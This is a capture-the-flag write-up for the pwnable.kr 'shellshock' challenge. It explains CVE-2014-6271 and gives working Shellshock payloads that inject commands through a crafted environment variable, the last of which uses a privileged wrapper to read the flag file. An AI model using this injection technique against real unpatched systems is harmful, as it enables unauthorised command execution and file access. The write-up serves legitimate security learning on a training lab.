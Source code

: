 # pwnable.kr -- Toddler's Bottle -- shellshock

## 1. Challenge

```
Mommy, there was a shocking news about bash.  
I bet you already know, but lets just make it sure :)  
    
ssh shellshock@pwnable.kr -p2222 (pw:guest)  
```

## 2. Solution

Connect via SSH.

In current directory, it provides a `bash` that has CVE-2014-6271 exploit.

We can test it by typing:

```bash
$ env x='() { :;}; echo fuckfuck' ./bash -c "echo haha"
```

And we can find that both `"fuckfuck"` and `"haha"` are typed out.

Review the source code of the binary file `shellshock`, which is in file `shellshock.c`. We can find that `shellshock` has right to read `flag` and it will launch the exploitable `bash`.

So, just type:

```bash
$ env x='() { :;}; /bin/cat flag' ./shellshock
```

Then you will see the flag.
